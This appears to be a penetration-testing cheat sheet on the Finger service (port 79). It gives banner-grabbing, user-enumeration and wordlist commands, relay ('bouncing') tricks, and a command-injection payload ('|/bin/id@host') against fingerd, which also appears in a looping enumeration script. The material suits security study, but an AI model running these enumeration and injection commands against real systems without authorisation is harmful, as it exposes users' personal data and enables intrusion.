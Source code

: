 # Finger (79)

**what is finger**

Finger is primarily used to enumerate user information on the target system. It can also find out detailed information (if exists) such as full name, email address, phone number etc. of all its users.

**Default port:**
 79


**Banner Grabbing**

## Telnet
````
telnet $ip 79
````

## Netcat 
````
nc -nv $ip 79

````

## Enumeration

**finger-user-enum**

https://github.com/pentestmonkey/finger-user-enum

````
finger-user-enum is a script used to enumerate users

````
#### Using finger-user-enum

```
1. Displaying help

# perl finger-user-enum.pl -h

2. enumerate a single user

-u = user

-t = host IP

# perl finger-user-enum.pl -u root -t 10.10.10.76

3. Enumerate users using a list

# perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

4. Using a list of IPs

# perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -T IP_list.txt

5. Using another port than default 79

# perl finger-user-enum.pl -p 8000 -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

6. Showing detailed output

# perl finger-user-enum.pl -d -u root -t 10.10.10.76
```
## Using finger
````
man finger

 -s        Finger displays the user's login name, real name, terminal name

 -l        Produces a multi-line format displaying all of the information described for the -s option as well as the user's
           home directory, home phone number, login shell, mail status, and the contents of the files “.plan”, “.project”,
           “.pgpkey” and “.forward” from the user's home directory.

2. enumerate a known user. In this case root

# finger -s root@10.10.10.76

3. Show the home directory of the user

# finger -sl root@10.10.10.76
 
````
#### finger Enum Script

````
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@10.0.0.3"; echo -e "\n";done

````
## Finger Zero 
````
fingerd may respond to finger 0@<host> with information on some user accounts.

# finger 0@10.0.0.3

````

## Finger ‘a b c d e f g h’
````
fingerd may respond to 'a b c d e f g h'@<host> with information on all accounts.

finger 'a b c d e f g h'@10.0.0.3
````
## Finger Bouncing

````
finger can be used to relay a request to a different host as if it were sent from that machine.

# finger @10.0.0.3@10.10.10.4

# finger root@10.0.0.3@10.10.10.4
````
## Command Execution
````
fingerd allows remote command execution through shell metacharacters.

# finger "|/bin/id@10.0.0.3"
````

# Links of the sources
https://0xffsec.com/handbook/services/finger/#fn:3
